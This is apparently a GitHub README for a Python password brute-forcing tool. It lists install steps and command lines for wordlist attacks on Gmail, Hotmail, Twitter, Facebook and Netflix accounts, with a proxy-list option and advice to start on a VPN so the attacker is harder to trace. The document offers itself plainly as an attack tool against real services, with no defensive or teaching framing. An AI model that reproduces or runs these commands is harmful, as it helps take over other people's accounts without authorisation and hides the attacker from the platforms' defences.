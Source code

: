 # BruteForce
install :
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
Usage:
BruteForce Gmail Attack
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
BruteForce Hotmail Attack
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
BruteForce Twitter Attack
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt
BruteForce Facebook Attack
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
BruteForce Netflix Attack

Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt
![immagine](https://user-images.githubusercontent.com/56889513/117018377-ba264500-acf4-11eb-9a32-78cdd936a9c7.png)

